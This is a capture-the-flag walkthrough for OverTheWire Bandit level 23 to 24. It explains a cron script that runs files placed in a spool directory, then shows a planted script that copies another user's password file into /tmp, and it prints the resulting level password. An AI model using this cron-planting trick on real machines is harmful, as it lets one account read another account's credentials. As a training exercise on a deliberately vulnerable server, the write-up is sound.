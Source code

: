 ```yaml
---
title: 'OverTheWire: Bandit Level 23 → Level 24'
description: 'https://overthewire.org/wargames/bandit/bandit24.html'
date: '2021-03-17 10:22:25 +0530'
categories: [Security, OverTheWire]
tags: [overthewire, bandit, ctf, security, linux]
published: true
img_path: /assets/
image: images/overthewire-banner.png
---
```


## Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

## Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

## Solution

Since we know there is a task that is being executed by cron let's have a look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is a script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is a special keyword that is used by Cron to run a job when the system is rebooted.

Let's have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exists in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterate through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the currently selected file is called `.` or `..` if not then the rest of the code is executed. ("." means the current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the currently selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   A check is made to check if the owner of the currently selected file is "bandit23". If it is then the currently selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this, we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save it in a location that we can access (`/tmp` directory)

Let's make a folder in the `/tmp` directory and use that as the base location for all the operations from here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using Vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` let's create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so let's change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally, let's copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```

![Ls Command|420](images/bandit-23-24/ls-command.png)

After waiting for about a minute we should see that some data has been written into the password file. Let's view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```